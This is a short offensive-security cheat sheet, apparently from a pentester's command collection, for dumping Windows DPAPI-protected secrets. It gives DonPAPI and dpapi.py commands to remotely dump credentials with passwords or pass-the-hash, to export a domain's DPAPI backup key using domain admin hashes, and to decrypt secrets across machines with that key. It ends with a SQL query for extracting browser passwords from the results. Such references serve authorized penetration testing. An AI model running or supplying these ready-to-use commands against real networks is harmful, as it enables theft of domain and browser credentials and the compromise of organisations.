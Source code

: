 # DPAPI

% dpapi, windows, donpapi

## DonPAPI - Dump all - pwd
#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi <domain>/<user>:<password>@<target> -o donpapi_res
```

## DonPAPI - Dump all - hashes
#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi <domain>/<user>@<target> -o donpapi_res --hashes '<hashes>'
```

## Get Domain BackupKeys
#plateform/linux #target/remote #cat/POSTEXPLOIT
```
dpapi.py backupkeys --export -t <domain>/<da_user>@<dc_ip> -hashes '<hashes>'
```

##  DonPAPI - Dump all with backup key

#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi -pvk domain_backupkey.pvk <domain>/<da_user>@<network_file> -o donpapi_res --hashes '<hashes>'
```

## DonPAPI DB - Browser pwd not empty

```
select username, password, target from credz where type like 'browser%' and password IS NOT '' and password is not ' ';
```